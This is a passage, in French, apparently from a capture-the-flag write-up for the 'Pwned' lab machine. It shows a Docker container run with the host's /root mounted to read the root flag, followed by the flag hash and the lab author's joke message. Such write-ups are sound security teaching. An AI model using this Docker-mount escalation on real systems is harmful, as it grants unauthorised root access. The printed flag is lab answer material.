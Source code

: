 On va profiter de l'image Alpine pour créer un container qui aura accès à `/root` :

```console
selena@pwned:~$ docker run -v /root:/data -it --rm alpine /bin/sh
/ # cd /data
/data # ls
root.txt
/data # cat root.txt
4d4098d64e163d2726959455d046fd7c



You found me. i dont't expect this （◎ . ◎）
I am Ajay (Annlynn) i hacked your server left and this for you.

I trapped Ariana and Selena to takeover your server :)


You Pwned the Pwned congratulations :)

share the screen shot or flags to given contact details for confirmation 

Telegram   https://t.me/joinchat/NGcyGxOl5slf7_Xt0kTr7g

Instgarm   ajs_walker 

Twitter    Ajs_walker
```
